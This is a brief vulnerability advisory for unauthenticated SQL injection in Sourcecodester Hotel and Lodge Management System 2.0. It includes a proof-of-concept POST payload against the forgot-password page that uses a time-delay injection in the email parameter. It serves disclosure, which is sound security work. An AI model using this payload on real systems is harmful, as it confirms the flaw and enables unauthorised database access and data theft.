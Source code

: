 HOTEL AND LODGE MANAGEMENT SYSTEM 2.0 SQLI

Disclosure date: 10/24/19

Sourcecodester Hotel and Lodge Management System 2.0 is vulnerable to unauthenticated SQL injection and can allow remote attackers to execute arbitrary SQL commands via the 'email' parameter to the edit page for Customer, Room, Currency, Room Booking Details, or Tax Details.

Proof of Concept:

http://192.168.234.128/forgot_password.php

POST:btn_forgot=1&email=1' or sleep(5)%23

![Image text](1.jpg)
![Image text](2.jpg)
![Image text](3.jpg)
